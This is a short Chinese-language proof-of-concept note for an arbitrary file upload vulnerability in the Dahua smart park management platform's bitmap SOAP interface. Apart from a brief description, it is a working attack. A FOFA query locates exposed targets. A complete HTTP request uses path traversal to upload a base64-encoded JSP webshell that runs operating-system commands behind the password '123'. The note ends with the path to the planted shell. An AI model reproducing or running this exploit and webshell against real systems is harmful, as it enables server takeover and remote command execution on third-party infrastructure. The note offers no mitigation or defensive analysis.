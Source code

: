 ## 大华智慧园区综合管理平台bitmap接口存在任意文件上传漏洞

大华园区综合管理平台/emap/webservice/gis/soap/bitmap接口处存在任意文件上传漏洞，恶意攻击者可能会上传后门文件，造成服务器失陷


## fofa
```
app="dahua-智慧园区综合管理平台"
```
![33323d220d4e626f9db80f3dac6829f6](../../images/d2b1222c-c509-474d-9c28-92b05ade76c1.png)


## poc
```
POST /emap/webservice/gis/soap/bitmap HTTP/1.1
Host: your-ip
Content-Type: text/xml; charset=utf-8
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:res="http://response.webservice.bitmap.mapbiz.emap.dahuatech.com/">
    <soapenv:Header/>           
	    <soapenv:Body>
     		    <res:uploadPicFile>
                    <arg0>
             	    <picPath>/../rce.jsp</picPath>
                    </arg0>
                    <arg1>PCUgaWYoIjEyMyIuZXF1YWxzKHJlcXVlc3QuZ2V0UGFyYW1ldGVyKCJwd2QiKSkpeyBqYXZhLmlvLklucHV0U3RyZWFtIGluID0gUnVudGltZS5nZXRSdW50aW1lKCkuZXhlYyhyZXF1ZXN0LmdldFBhcmFtZXRlcigiY21kIikpLmdldElucHV0U3RyZWFtKCk7IGludCBhID0gLTE7IGJ5dGVbXSBiID0gbmV3IGJ5dGVbMjA0OF07IG91dC5wcmludCgiPHByZT4iKTsgd2hpbGUoKGE9aW4ucmVhZChiKSkhPS0xKXsgb3V0LnByaW50bG4obmV3IFN0cmluZyhiKSk7IH0gb3V0LnByaW50KCI8L3ByZT4iKTsgfSAlPg==</arg1>
                </res:uploadPicFile>
		</soapenv:Body>
</soapenv:Envelope>
```
文件上传路径：http://127.0.0.1/upload/rce.jsp


![image](../../images/f83ff567-1c39-4b96-8985-90c0f06542b3.png)
